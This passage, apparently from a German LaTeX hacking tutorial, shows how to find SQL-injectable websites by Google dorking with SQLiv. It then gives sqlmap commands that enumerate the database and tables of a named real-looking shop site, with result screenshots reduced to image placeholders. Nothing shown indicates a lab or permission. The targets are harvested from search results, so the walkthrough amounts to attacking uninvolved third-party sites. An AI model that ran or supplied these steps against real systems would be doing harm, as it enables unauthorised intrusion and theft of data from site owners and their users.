 Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	\texttt{[image: sqllive.png]}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}

\begin{LaTeXCode}[caption={Aufdeckung vom Datenbankname},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
\end{LaTeXCode}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{figure}[h]
	\centering
	\texttt{[image: ac.png]}
	\caption{Ergebnis: Datenbankname}
\end{figure}

\newpage

\textbf{B. Tabellenname aufdecken}

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	\texttt{[image: resulttabellenname.png]}
	\caption{Ergebnis: Tabellenname}
\end{figure}

